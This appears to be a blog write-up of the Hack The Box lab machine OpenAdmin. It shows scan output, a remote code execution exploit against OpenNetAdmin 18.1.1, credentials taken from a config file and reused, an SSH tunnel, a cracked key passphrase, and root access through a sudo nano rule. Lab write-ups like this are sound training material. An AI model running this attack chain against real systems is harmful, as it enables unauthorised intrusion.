 ```yaml
---
featured_image: "/posts/Openadmin/openadmin.png"
title : HTB 16/20 OpenAdmin
published : true
date: 2021-04-24
author : PS
---
```

## Foothold
*nmap*
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-28 19:26 EEST
Nmap scan report for 10.10.10.171
Host is up (0.081s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.30 seconds
```
![img](Pasted image 20210428192756.png)
Lulzzzzbuster Timeeeeeeeeeeeeeeeeee
```bash
[+] final settings

    > url:          http://10.10.10.171:80/
    > http method:  GET
    > http excodes: 400 404 500 501 502 503 
    > follow redir: 0
    > ua:           Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
    > con timeout:  10s
    > req timeout:  30s
    > threads:      30
    > con cache:    30
    > wordlist:     /usr/share/seclists/Discovery/Web-Content/common.txt
    > dns server:   1.1.1.1,8.8.8.8,208.67.222.222
    > logfile:      stderr
    > smart mode:   0

[+] game started

[+] code   size   real size   resp time   url

[*] 403 |  277B |      277B | 0.403072s | http://10.10.10.171:80/.htaccess
[*] 403 |  277B |      277B | 0.403872s | http://10.10.10.171:80/.htpasswd
[*] 403 |  277B |      277B | 0.470007s | http://10.10.10.171:80/.hta
[*] 301 |  314B |      314B | 0.170200s | http://10.10.10.171:80/artwork
[*] 200 |   11K |    10918B | 0.158344s | http://10.10.10.171:80/index.html
[*] 301 |  312B |      312B | 0.160989s | http://10.10.10.171:80/music
[*] 403 |  277B |      277B | 0.161605s | http://10.10.10.171:80/server-status
[*] 200 |   11K |    10918B | 1.497938s | http://10.10.10.171:80/

[+] game over
```
![img](Pasted image 20210428193228.png)
Clicking on the login button :
![img](Pasted image 20210428193246.png)
lolz :))  
![img](Pasted image 20210428193339.png)
Oh damn :))  
So vuln :))  
![img](Pasted image 20210428193537.png)
:)) sad  
```bash
>>> python3 ona-rce.py exploit http://10.10.10.171/ona/
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ 
```
## User
In config/database_settings.inc.php we find some creds :
```bash
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
?>
```
PS only found a password but no user  
If we enumerate users using cat /etc/passwd we get 3 users root jimmy joanna  
After I tried each user, jimmy was a match :D
```bash
>>> ssh jimmy@10.10.10.171
The authenticity of host '10.10.10.171 (10.10.10.171)' can't be established.
ECDSA key fingerprint is SHA256:.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.171' (ECDSA) to the list of known hosts.
jimmy@10.10.10.171's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Apr 28 16:43:10 UTC 2021

  System load:  0.0               Processes:             113
  Usage of /:   49.3% of 7.81GB   Users logged in:       0
  Memory usage: 18%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.


Last login: Thu Jan  2 20:50:03 2020 from 10.10.14.3
```
Well now PS needs to escalate to joanna sooo :
```bash
jimmy@openadmin:~$ ps -eaf --forest
UID        PID  PPID  C STIME TTY          TIME CMD
root         2     0  0 16:25 ?        00:00:00 [kthreadd]
root         4     2  0 16:25 ?        00:00:00  \_ [kworker/0:0H]
root         6     2  0 16:25 ?        00:00:00  \_ [mm_percpu_wq]
root         7     2  0 16:25 ?        00:00:00  \_ [ksoftirqd/0]
root         8     2  0 16:25 ?        00:00:00  \_ [rcu_sched]
root         9     2  0 16:25 ?        00:00:00  \_ [rcu_bh]
root        10     2  0 16:25 ?        00:00:00  \_ [migration/0]
root        11     2  0 16:25 ?        00:00:00  \_ [watchdog/0]
root        12     2  0 16:25 ?        00:00:00  \_ [cpuhp/0]
(part cut for sizee)
www-data  1392  1040  0 16:27 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  1786  1040  0 16:29 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  1899  1040  0 16:29 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  1900  1040  0 16:29 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  1903  1040  0 16:29 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  1906  1040  0 16:29 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  5456  1040  0 16:29 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  6130  1040  0 16:29 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  6162  1040  0 16:30 ?        00:00:00  \_ /usr/sbin/apache2 -k start
www-data  6209  1040  0 16:32 ?        00:00:00  \_ /usr/sbin/apache2 -k start
jimmy     6442     1  0 16:43 ?        00:00:00 /lib/systemd/systemd --user
jimmy     6444  6442  0 16:43 ?        00:00:00  \_ (sd-pam)
```
Always run  ps -eaf --forest because it may reveal something interesting,  
But after running  netstat -nalp
```bash
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0    360 10.10.10.171:22         10.10.14.7:55670        ESTABLISHED -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 10.10.10.171:80         10.10.14.7:42586        TIME_WAIT   -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -     
```
I see something on the  52846 port  
Run ```bash ssh jimmy@10.10.10.171 -L 80:127.0.0.1:52846```  
To listen for the port on your pc  
![img](Pasted image 20210428195234.png)  
Since we are talking about web apps , a good practice is to double check /var/www/ :
```bash
jimmy@openadmin:~$ cd /var/www
jimmy@openadmin:/var/www$ ls
html  internal  ona
jimmy@openadmin:/var/www$ cd internal/
jimmy@openadmin:/var/www/internal$ ls
index.php  logout.php  main.php
jimmy@openadmin:/var/www/internal$ 
```
Index.php reveals the password :
```bash
            $msg = '';
            if (isset($_POST['login'])
            && !empty($_POST['username'])
            && !empty($_POST['password']))
            {
              if ($_POST['username'] == 'jimmy'
              && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1')
              {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
```
that sha512 -> Revealed
So let's login
![img](Pasted image 20210428195713.png)
Hmm we need to decrypt the key now  
PS cracks it and get the password  bloodninjas  
Let's ssh with it  
and get user
## Root 
run sudo -l 
```bash 
joanna@openadmin:~$ sudo -l
    (ALL) NOPASSWD: /bin/nano /opt/priv
```
GTFObins time :
https://gtfobins.github.io/gtfobins/nano/
Annnnd run it and get root
PS out !
